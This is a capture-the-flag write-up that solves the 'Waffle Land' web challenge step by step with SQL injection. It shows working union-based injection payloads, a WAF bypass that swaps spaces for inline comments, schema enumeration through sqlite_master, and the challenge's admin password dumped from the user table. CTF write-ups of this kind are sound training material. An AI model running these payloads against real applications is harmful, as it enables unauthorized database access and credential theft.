

# Waffle Land

## Problem

```
We got hacked, but our waffles are now safe after we mitigated the vulnerability.

Connect here:
http://jh2i.com:50024
```

## Solution

***Note**: solved after competition end*

We are taken to a page advertising different waffles. There seems to be a login section, for which we don't have any credentials.
The main page has a search bar which we can use to search for entries containing input. 


We try messing around with the search bar to see if it gives us any new information. Inserting just a single quote (`'`)
causes the application to crash and return us an error:


This tells us that (1) the application is vulnerable to SQLi. (2) the database is in sqlite. The error message also reveals
the search query format, which queries a table called `product` (likely the waffles):
```sql
select * from product where name like '%<search input>%']
```
We can easily inject our own queries by prepending a single quote to our input (to close off the initial `select`) and appending `;--` to
our input (to comment out/escape the `%'` at the back). For example, we can search `' limit 1 --` and this will execute the following query:                                                                  
```sql
select * from product where name like '' limit 1
```
This returns the first row in the table `product` and we [only see one entry](images/waffleland3.PNG) in the result.

&nbsp;

Let's find out the number of columns (attributes) in the `product` table. This will be useful for when we want to conduct 
union-based SQLi later. We use the search input:
```sql
' order by n --
```
where `n`: any arbitrary number. This creates a query that will sort the data according to the `n`'th attribute in the table.
If `n` is greater than the number of attributes in this table the query will return an error.


When `n=6`, it returns an error. Thus we can conclude the number of attributes in the `product` table is 5.

&nbsp;

We try adding our own user data. Using the search input:
```sql
' union select 1,2,3,4,5 --
```
This should add the row `1,2,3,4,5` to the query output. We should see a new entry in the search results, but instead we
get this:


This means that there is some sort of Web Application Firewall (WAF) hence the challenge name. A WAF sanitises given input
by monitoring the HTTP traffic/requests of a web server and preventing attacks such as SQLi by blocking suspicious traffic.
Trying to work around the WAF, we discover that it is only filtering out searches containing the substring ` union select`. 
A simple workaround (John Hammond's signature and a lesson from NahamCon) is to replace the spaces with inline comments
`/**/`.

&nbsp;

To get more information on table schema, we use input:
```sql
'/**/union/**/select/**/name,sql,3,4,5 from sqlite_master; --
```
which returns us the following results:


So we know there are two tables in the application, `product` and `user`.

|Table|Columns|
|---|---|
|product|id, name, description, prize, image|
|user|id, username, password|

`username` and `password` columns in the `user` table seems very interesting, so we try to dump the data in those fields
using union-based SQLi. For union-based SQLi to work, the number of columns from both tables must be the same. We simply 
bypass this by padding the second `select` query (ie. querying `user` table) with 2 extra columns. The input is:
```sql
' and 0=1/**/union/**/select/**/1,username,password,4,5 from user --
```
The final query is:
```sql
select * from product where name like '' and 0=1/**/union/**/select/**/1,username,password,4,5 from user --
^                                                               ^
|                                                               |
(1)                                                             (2)
```
(1) This `select` selects all entries from the `product` table and filters out entries that satisfy `0=1`. Since that is 
universally false, all the waffle entries will be filtered out.\
(2) This `select` selects all entries from the `user` table and returns their `username` and `password` attributes in the
2nd and 3rd column.

Doing this shows there is a user named `admin` and their password is `NT7b#ed4$J?eZ#m_`.



&nbsp;

Login using the credentials (`admin/NT7b#ed4$J?eZ#m_`) and we get the flag.


**Flag**: `flag{check_your_WAF_rules}`

&nbsp;

#### References:
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection